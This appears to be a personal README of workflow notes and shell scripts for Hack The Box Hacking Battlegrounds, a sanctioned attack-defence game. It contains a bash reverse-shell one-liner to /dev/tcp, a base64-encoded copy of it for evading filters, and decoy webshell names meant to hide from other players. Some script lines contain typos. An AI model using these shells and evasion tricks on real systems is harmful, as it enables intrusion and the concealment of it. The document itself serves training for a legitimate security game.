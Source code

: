# Battlegrounds 

**"If you know the enemy and know yourself, you need not fear the results of a hundred battles. If you know yourself but not the enemy, for every victory gained you will also suffer defeat."* - Sun Tzu, Art of War.

Try to, at some point I want to master hacking in a battlegrounds context. This hope is that this will morph into an instructional Art of War for Hacking. From absolute novice to master.

## Rules

- Players aren’t supposed to shut down machines.
- Players are not allowed to change the root password of machines.
- Processes/commands that are marked with `HTB=1` prefix should not be considered as part of the exploitation process since they are system checks to ensure that machine’s legitimate functionality is preserved.
- Defenders are not allowed to massively “kill shells” in order to secure their systems. They should focus on patching the actual vulnerabilities.
- Defenders aren’t supposed to kill a service just to patch vulnerabilities.
- When defenders try to patch vulnerabilities, it’s their responsibility to make sure that no underlying functionality has been stopped due to their patch. For example, there is a reason for sudo entries so when they are modified they should still serve their original purpose. Removing a sudo entry is not a “fix” and defenders should consider fixing the insecure “sudo entry” instead of removing it.
- If a system check has been fired in the middle of a service restart or machine reset/reboot there is a chance that defenders will be punished with loss of points. This is intended and the reason behind that is to “award” the players who didn’t restart/reboot many times.
- Surrenders can’t be called before the 15 minute mark.

## Ippsec Scripting

[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)

This section is notation and inpsired by Ippsec's "{"workflow"}" from around Oct 2020. Methods change and this document should also reflect that knowledge is power. Knowing your enemy and what they know is power. Defense and Attack are both in a context of conflict are the same thing - action to end conflict.

Requirements:
1. Tmux or equivalent and setup to manage connections, information and tools.
Although not stated by Ippsec a tmux scripting to setup a terminal multiplexer of 
```bash
#!/bin/bash

tmux new -s Battleground 
tmux new-window -t SERVER
tmux new-window -t HOME
tmux new-window -t BLUE
tmux new-window -t MSF
tmux new-window -t ATK

tmux send-keys -t HOME 'cp bg/ /tmp; cd tmp/bg' #setup 
tmux send-keys -t HOME './startBGs.sh'
tmux send-keys -t MSF 'msf'
```

2. StartBG.sh 
```bash
#!/bin/bash

cp -r www-skel/ www/
# Change $IP to another
sed -i "s/$IP/$1/g" www/*
# Copy decoy variants names of webshells
cp www/$reverseshell www/$decoy-name
cp www/$reverseshell www/$decoy-name 
echo "bash -c 'bash -i >& /dev/tcp/$1/$port 0>&1'" >> www/shell.sh
SHELL=$(cat www/shell.sh | base64 -w 0)
echo "echo -n '$SHELL' | bash64 -d | bash" >> www/shell.b64.sh
```
IP variable in the third line must be changed to match a default script variable.
The b64 version is to bypass badchars and filtering.  
Decoy naming: the variable in this script is such that the naming of the shell in the file directory it is run from or process directory `/proc/$int` as process. The file names below were given as examples of ways to avoid detection from other players. Each player has some idea of what is regularly in the www directory so a wordpress file would seem ordinary were as long string of 'a's could clutter the process tree or overflow to the textual display obfuscating another players `ps -aux` command.
```bash
decoy-name=#of the following
wp-load.php
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaah-RCE.php.gif
```

3. accesscastle.sh $IP $PASSWORD
```bash
#!/bin/bash
# Ippsec castle access script from Hack the Box Hacking Battlegrounds video
# If you dont have the -o managing ssh will be hell 
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o UserKnownHostsFile=/dev/null -o StrictHostKeysChecking=no root@$1
```

4. getflags.sh 
This script will access the castles access the hostkeys and print out the flags. It will ask for a password if the hostkey is NOT there.
```bash
#!/bin/bash
for i in $(seq 105 108); do
        echo "10.10.110.$i"
        ssh -o "BatchMode=Yes" -o "StrictHostKeyChecking=no" \
                -o "GlobalKnownHostsFile=/dev/null" -o "UserKnownHostsFile=/dev/null" \
                -i $privatekey \ # private key directory
                root@10.10.110.$i "cat /root/flag.txt; echo; cat /opt/flag.txt; echo" 2>/dev/null
        done
```

5. Metasploit is efficient. Hacking without makes you better; Metasploit streamline exploit execution chain. Speed and time are important and without metasploit research and script fixing takes time.  Shell stablisation is plain for defenders to see, with metasploit shell there is no need to stablise.

6. Create more panes for Tmux 

8. Configure Burp proxy(if using firefox to Hack from) `Proxy -> Options -> Intercept Client Request -> Add -> Match Relationship = IP address; Match condition 10.10.110.100-120` and disabling Websockets Messages on the same Proxy tab, Options `Intercept WebSockets Messages -> untick Intercept client-to-server messages & untick Intercept server-to-client messages`. This stop the background page slowing down request cycling stopping you from intercepting Battleground relevant pages.

## On Castle Enumeration

```bash
ps -aef --forest
```

## References

[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)
[Tmux Scripting](https://tao-of-tmux.readthedocs.io/en/latest/manuscript/10-scripting.html)



